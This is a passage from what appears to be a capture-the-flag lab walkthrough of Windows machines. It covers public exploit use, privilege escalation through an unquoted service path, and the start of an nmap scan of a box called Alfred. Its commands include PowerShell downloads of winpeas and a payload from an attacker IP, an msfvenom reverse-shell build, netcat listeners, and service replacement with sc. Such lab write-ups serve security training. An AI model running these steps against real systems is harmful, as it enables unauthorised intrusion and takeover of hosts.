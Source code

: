 #### Manual part

Save the [exploit](https://www.exploit-db.com/raw/39161) to `exploit.py`, save [nc.exe](https://github.com/andrew-d/static-binaries/raw/master/binaries/windows/x86/ncat.exe) to `nc.exe`. Download WinPEAS from [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/winPEAS/bin/Obfuscated%20Releases).

We will serve the files through a HTTP python server by using this command: `python3 -m http.server 80`

Besides, we need to listen on the port set in the script: `nc -lnvp 4443`.

Run the script two times:
```
python exploit.py target 8080
python exploit.py target 8080
```

You will get a shell! In the shell run:

```
powershell -c (new-object System.Net.WebClient).DownloadFile('http://10.11.2.58/winpeas.exe','C:\Users\bill\Desktop\winpeas.exe')
```

to upload winpeas.exe to the target's Desktop of the current user.

Run `winpeas.exe`.

In the output you will see it points us towards unquoted paths of *AdvancedSystemCareService9*.

We will again abuse this service and generate a payload using: 
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.2.58 LPORT=4442 -f exe -o ASCService.exe`

Upload the payload using this command:
`powershell -c (new-object System.Net.WebClient).DownloadFile('http://10.11.2.58/ASCService.exe','C:\Users\bill\Desktop\ASCService.exe')`

Start a listener on port 4442: `nc -lnvp 4442`.

Finally, run the following commands again to stop, replace and start the service.
```
sc stop AdvancedSystemCareService9
copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
sc start AdvancedSystemCareService9
```

Your shell will pop on your listener.

### Day 3 - more practice

#### Alfred

We run `nmap -sC -sV -T4 -Pn -p- target`:
```
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ssl/ms-wbt-server?
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
